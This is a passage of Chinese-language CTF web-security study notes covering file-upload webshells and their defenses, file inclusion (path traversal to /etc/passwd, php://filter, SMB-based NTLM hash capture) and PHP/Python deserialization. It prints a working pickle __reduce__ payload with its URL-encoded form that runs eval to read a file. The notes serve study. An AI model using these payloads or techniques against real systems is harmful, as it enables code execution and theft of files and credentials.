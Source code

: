 上传的最终目的就是一个webshell反弹拿到shell环境

防御：

1. 使用**白名单**严格校验**后缀名**
2. 上传文件的文件名或者目录使用基于时间戳的随机数，避免被遍历访问到
3. 上传目录不给执行权限
4. 分离存储，存在专门的文件服务上，而不是web服务器上
5. 对图片二次渲染，消除隐藏的恶意代码；对压缩文件在安全的沙箱环境中解压并检查其中的每一个文件。

## 文件包含

路径穿越漏洞：利用本地文件包含../../../../直接读取到/etc/passwd了

远程文件包含：直接触发访问smb服务（responder抓取NTLM哈希）

本地文件包含：file://读本地文件

最重要的php://filter读php文件

因为php文件直接`include`是嵌入执行，我们利用`php://filter/convert.base64-encode/resouce=`进行base64编码，防止php代码被执行。

# php反序列化

依赖魔术方法，主要看字符串逃逸那块

# python反序列化

就是pickle反序列化，直接看pickle那一章

一个标准`__reduce_`利用:

```
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print a

c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```

## 正则绕过

正则表达式的结构是`^.*(黑名单).*$`

^匹配开头，$匹配结尾，`.*`贪婪匹配
